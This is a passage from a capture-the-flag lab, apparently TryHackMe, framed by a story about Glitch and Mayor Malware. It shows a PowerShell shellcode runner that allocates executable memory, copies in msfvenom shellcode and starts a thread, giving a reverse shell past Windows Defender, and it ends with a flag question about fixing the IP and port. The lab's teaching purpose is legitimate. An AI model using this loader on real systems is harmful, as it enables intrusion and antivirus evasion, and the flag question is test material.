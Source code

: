Then paste the line below, replacing the placeholder with the shellcode generated by msfvenom, and press `Enter`.

```javascript
[Byte[]] $buf = SHELLCODE_PLACEHOLDER
```

Continue copying and pasting the lines from the code below. Remember, copy one line at a time, paste it, and press `Enter`.

```javascript
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

If you've done it properly, the PowerShell terminal in the VM will look like the screenshot below:

 ![PowerShell screenshot after executing the script](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1732698537726.png) \n

Once you execute the final line in the PowerShell terminal and press `Enter`, you will get a reverse shell in the AttackBox, giving you complete access to the computer even if the Windows Defender is enabled. Now you can issue any command, like issuing `dir`, which will list all the directories.

 ![successful shell screenshot](https://tryhackme-images.s3.amazonaws.com/user-uploads/62a7685ca6e7ce005d3f3afe/room-content/62a7685ca6e7ce005d3f3afe-1727972837925.png)

## Regaining Access

*Now Glitch must act, no time to delay,*

*To fix the shellcode and keep foes at bay.*

*He tweaks and he codes to set the wrongs right,*

*Protecting his secrets with all of his might.*

* \n *

Let's dive into the story and troubleshoot the issue in this part of the task. Glitch has realised he's no longer receiving incoming connections from his home base. Mayor Malware's minion team seems to have tampered with the shellcode and updated both the IP and port, preventing Glitch from connecting. The correct IP address for Glitch is `ATTACKBOX_IP`, and the successful connection port should be `4444`.

Can you help Glitch identify and update the shellcode with the correct IP and port to restore the connection and reclaim control?

Answer the questions below

What is the flag value once Glitch gets reverse shell on the digital vault using port 4444? Note: The flag may take around a minute to appear in the **C:\\Users\\glitch\\Desktop** directory. You can view the content of the flag by using the command **type C:\\Users\\glitch\\Desktop\\flag.txt**.

Are you interested in learning more about evasion? Take a look at the [AV Evasion: Shellcode](https://tryhackme.com/r/room/avevasionshellcode) room.
